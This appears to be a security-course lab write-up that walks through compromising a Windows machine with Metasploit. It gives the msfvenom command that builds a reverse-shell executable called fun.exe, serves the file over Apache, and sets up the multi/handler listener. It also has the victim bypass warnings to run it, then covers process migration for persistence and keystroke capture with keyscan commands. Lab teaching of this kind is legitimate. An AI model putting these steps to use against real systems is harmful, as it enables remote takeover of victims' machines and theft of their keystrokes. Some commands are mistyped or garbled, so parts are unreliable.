# Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![](1.png)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![](2.png)

copy the fun.exe into the apache /var/www/html folder

![](3.png)

Start apache server sudo systemctl apache2 start

![](4.png)

Check the status of apache2

1[](5.png)

Invoke msfconsole:
msfconsole

![](6.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![](7.png)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![](8.png)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![](9.png)

Bypass any warning boxes, double-click the file, and allow it to run.

![](10.png)

On kali give the command exploit

![](11.png)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![](12.png)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![](13.png)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![](14.png)
![](15.png)

keyscan_dump Shows the keystrokes captured so far.

![](16.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
